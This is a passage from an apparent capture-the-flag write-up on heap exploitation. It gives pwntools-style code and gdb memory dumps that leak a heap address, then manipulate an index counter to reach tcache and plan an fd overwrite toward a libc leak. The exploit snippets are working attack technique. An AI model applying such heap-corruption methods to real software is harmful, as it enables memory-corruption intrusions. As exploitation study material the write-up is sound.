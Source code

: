 ```py
    add(0x300,'a')
    do_work(1)
    #Heap
    reu('Only ')
    heap = int(re(8),10)
    heap_base = heap - 0x470
    log.info("heap_base = " + hex(heap_base))
```

From now on , we'll examine memory at each step.

```sh
0x404020 <stdout@@GLIBC_2.2.5>:	0x00007f04c9aa6760	0x0000000000000000
0x404030 <stdin@@GLIBC_2.2.5>:	0x00007f04c9aa5a00	0x0000000000000000
0x404040 <allocated_count>:	0x0000000000405470	0x0000000000000000
0x404050:	0x0000000000000000	0x0000000000000000
0x404060 <stack>:	0x0000000000405260	0x0000000000000000
0x404070 <stack+16>:	0x0000000000000000	0x0000000000000000
0x404080 <stack+32>:	0x0000000000000000	0x0000000000000000
0x404090 <stack+48>:	0x0000000000000000	0x0000000000000000

```

As u can see **allocated\_count** has been overwritten with a heap address and there goes our heap leak.

Initially , I thought since file pointers are buffered on bss , it could be file structure exploitaion , but then I dropped the idea for several reasons I'll discuss in a moment.

A heap leak is kind of a light of hope as now we can offset to heap and stuff on tcache thereby fooling malloc to assume that they're free chunks.

As we can get allocation on tcache , we can overwrite **fd** of our allocated chunk to point to wherever we want.

We still dont have libc leak :(, hence our first aim is to get libc leak. To do that , we have our potential candidates in bss , yes , you guessed it right , the file pointers in bss.

Here's what we're upto right now ->

1. Get allocation on tcache , overwrite fd of one chunk and finally get the pointer to libc to leak it out.
2. We need to setup our allocated_count in such a way that we can offset to our desired tcache with **stack[allocated\_count++**].

To offset to tcache , we call **do\_worksheet** and change our allocated_count to ->

allocated_count - (tcache-stack)/8
{: .notice}

```py
stack = 0x404060
tcache = heap_base + 0x248  #Corresponds to tcache of 0x400
allocated_count = heap_base + 0x470
offset = (tcache - stack)/8 
change = allocated_count - offset
do_work(change)

```
